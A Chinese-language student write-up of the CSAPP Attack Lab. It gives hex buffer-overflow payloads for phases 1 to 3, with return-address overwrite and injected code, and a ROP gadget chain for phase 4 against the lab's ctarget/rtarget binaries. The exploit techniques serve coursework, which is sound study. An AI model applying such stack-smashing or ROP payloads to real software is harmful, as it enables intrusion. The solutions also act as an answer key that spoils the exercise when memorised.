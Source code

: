 跟着pdf慢慢来
# phase 1
发现栈大小是0x28，touch1地址是0x004017c0，直接拿字符串怼过去，把地址塞进栈里原来的返回地址
```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
c0 17 40 00 00 00 00 00
```
然后存进ans.txt，再cat ans.txt | ./hex2raw | ./ctarget -q即可
# phase 2
跟着https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md来的
答案：
```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 
78 dc 61 55 00 00 00 00
```
# phase 3
和phase 2大同小异
```
48 c7 c7 b0 dc 61 55
68 fa 18 40 00   
c3 
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 
78 dc 61 55 00 00 00 00
```
# phase 4
不会，看别人的：


这题要求在新的保护下重复第二题的结果，将 `cookie` 值传入 `%rdi` ，这里和第二题一样使得栈溢出，然后将返回地址设为 `gadgets` 攻击链的起始地址。攻击链可以这样构造，观察代码发现：

```
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```

查阅文档， `58 90` 即是 `popq %rax` ，`90` 是 `nop` ，可以直接忽视，这段代码地址是 `0x4019ab` ，它将栈上的值存入了寄存器，接着发现：

```
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3
```

查阅文档， `48 89 c7` 就是 `movq %rax,%rdi` ，就将栈上的值存入了 `%rdi` ，因此将 `cookie` 值存入栈中，就可以传值，这段代码地址是 `0x4019a2` 。    
因此输入字符串先是一段填充的 40 字节，然后是跳转地址，设为 pop 的地址 `0x4019ab` ，接着存入 `cookie` 值（就是将要 pop 的那个值，注意应存入 64 位值），然后是 mov 的地址 `0x4019a2` ，最后跳转到 `touch2` ，这样一个完整的 ROP 攻击链就形成了，一个可行的答案就是：

```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```